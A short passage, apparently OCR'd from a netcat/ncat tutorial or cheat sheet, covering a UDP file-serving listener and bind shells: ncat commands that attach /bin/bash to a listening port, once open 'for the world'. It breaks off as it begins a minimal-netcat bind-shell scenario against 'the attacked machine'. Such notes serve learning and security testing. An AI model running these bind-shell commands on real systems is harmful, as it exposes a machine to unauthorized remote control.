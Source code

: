 If instead we want to use multiple connections with UDP, we can 
do:

```sh
ncat -l 3333 --udp --sh-exec "cat ciao.txt" 
 # in this case we 
 # allow multiple connections with the UDP protocol
```

### Remote Shell

```sh
ncat --exec "/bin/bash" -l 8081 --keep-open 
 # Bind to TCP port 
 # 8081 and attach /bin/bash for the world to access freely
```

```sh
ncat --exec "/bin/bash" --max-conns 3 --allow 192.168.0.0/24 -l 8081 --keep-open 
 # Bind a shell to TCP port 8081, limit access to 
 # hosts on a local network, and limit the maximum number of 
 # simultaneous connections to 3
```

### Bind Shell with minimal Netcat (nc without --exec or -e)

![Bind Shell](img/Bind_Shell_Scenario.png)

Bind shell is a common scenario, we can think about a classical "
ssh-like" session when we think about bind shells. On the 
attacked machine (the one on which we would like to talk) we 
should execute:
